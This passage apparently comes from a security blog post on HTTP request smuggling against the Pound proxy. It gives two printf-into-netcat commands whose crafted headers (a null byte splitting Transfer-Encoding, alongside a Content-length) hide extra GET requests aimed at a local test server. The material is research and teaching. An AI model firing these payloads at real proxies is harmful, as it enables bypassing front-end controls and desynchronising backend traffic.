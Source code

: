 On each attack we 2 responses instead of 3, you can also make 3 responses instead of 2.

{% highlight bash %}
# 3 responses instead of 2 (2nd query is unmasked by pound)
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-\0Mode: magic\r\n'\
'Encoding: chunked\r\n'\
'Content-length: 57\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'GET /tmp/ HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'GET /tests HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
{% endhighlight %}

And if you are still here you can compare the last two examples.
On the first one we try a bad chunked transmission, and on the last one we use the `ops-fold` syntax.
Use wireshark to compare the behaviors and some potential *crafted headers* syntax transmitted to backends.

{% highlight bash %}
# chunk mode not applied
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-\0Mode: magic\r\n'\
'Encoding: chunked,zorg\r\n'\
'Content-length: 57\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'GET /tmp/ HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'GET /tests HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
{% endhighlight %}

